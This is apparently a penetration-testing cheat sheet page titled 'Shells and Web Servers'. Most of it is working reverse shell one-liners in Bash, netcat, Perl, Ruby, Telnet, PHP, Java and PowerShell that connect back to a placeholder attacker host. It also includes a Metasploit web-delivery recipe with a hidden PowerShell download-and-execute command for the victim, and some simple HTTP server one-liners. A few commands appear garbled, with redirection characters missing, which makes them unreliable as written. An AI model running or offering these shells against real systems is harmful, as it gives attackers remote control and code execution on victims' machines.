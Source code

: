 ```yaml
---
title: Shells and Web Servers
category: Exploitation
order: 6
---
```


> **Reverse Shell One-Liners**

Listener | <code> nc -l -v attackerip 4444 </code>
Bash | <code> exec /bin/bash 0&0 2>&0 </code>
Bash | <code> 0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196 </code>
Bash | <code> exec 5<>/dev/tcp/attackerip/4444 <br> cat <&5 | while read line; do $line 2>&5 >&5; done  # or: <br> while read line 0<&5; do $line 2>&5 >&5; done </code>
NC | <code> nc -c /bin/sh attackerip 4444 </code>
NC | <code> /bin/sh | nc attackerip 4444 </code>
NC | <code> rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p </code>


**Perl Reverse Shell**

{% highlight perl %}
#Linux
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

#Windows
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
{% endhighlight %}

**Ruby**
{% highlight ruby %}
#Linux
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

#Windows
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
{% endhighlight %}

**Telnet**

{% highlight bash %}
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p

telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   # Remember to listen on your machine also on port 4445/tcp
{% endhighlight %}

**PHP**

{% highlight php %}
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
{% endhighlight %}

**Java**

{% highlight java%}
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
{% endhighlight %}

**Powershell**

{% highlight powershell %}
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
#$client = New-Object System.Net.Sockets.TCPClient('192.168.254.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

#$sm=(New-Object Net.Sockets.TCPClient('192.168.254.1',55555)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
{% endhighlight %}

* [Reverse Shell One liners](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
* [Bash, PHP, Netcat, Telnet, Perl, Ruby, Java, Python, Gawk](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

> **HTTP Servers One-Liners**

Python 2 | python -m SimpleHTTPServer 8000
Python 3 | python -m http.server 8000
ruby | <code> ruby -rwebrick -e'WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd).start' </code>
ruby 1.9.2+ | ruby -run -ehttpd . -p8000
perl | <code> perl -MHTTP::Server::Brick -e '$s=HTTP::Server::Brick->new(port=>8000); $s->mount("/"=>{path=>"."}); $s->start' </code>
php | php -S 127.0.0.1:8000
IIS Express | "C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\MyWeb /port:8000"
OpenSSL | <code> openssl req -newkey rsa:2048 -nodes -x509 -subj '/CN=name-you-want.example.com' -days 3650 -out server.cert -keyout server.key <br> openssl s_server -accept 7781 -cert server.cert -key server.key -WWW </code>


> **Powershell HTTP Servers**

{% highlight powershell %}
$Hso = New-Object Net.HttpListener
$Hso.Prefixes.Add("http://+:8000/")
$Hso.Start()
While ($Hso.IsListening) {
    $HC = $Hso.GetContext()
    $HRes = $HC.Response
    $HRes.Headers.Add("Content-Type","text/plain")
    $Buf = [Text.Encoding]::UTF8.GetBytes((GC (Join-Path $Pwd ($HC.Request).RawUrl)))
    $HRes.ContentLength64 = $Buf.Length
    $HRes.OutputStream.Write($Buf,0,$Buf.Length)
    $HRes.Close()
}
$Hso.Stop()
{% endhighlight %}

> **Script Web Delivery** 

On the attacker machine: 
{% highlight bash %}
msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > show targets
            ...targets...
msf exploit(web_delivery) > set TARGET <target-id>
msf exploit(web_delivery) > show options
            ...show and set options...
msf exploit(web_delivery) > exploit
{% endhighlight %}

On the victim: 
{% highlight bash %}
powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.10:80/[randomstring]'))
{% endhighlight %}

Reference:
* [securitypadawan](https://securitypadawan.blogspot.com/2014/02/php-meterpreter-web-delivery.html)


> **Useful Resources** 

* [Powershell HTTPS Shell](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-3.html)
* [powercat](https://www.sans.org/reading-room/whitepapers/testing/powercat-35807)
* [powercat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)


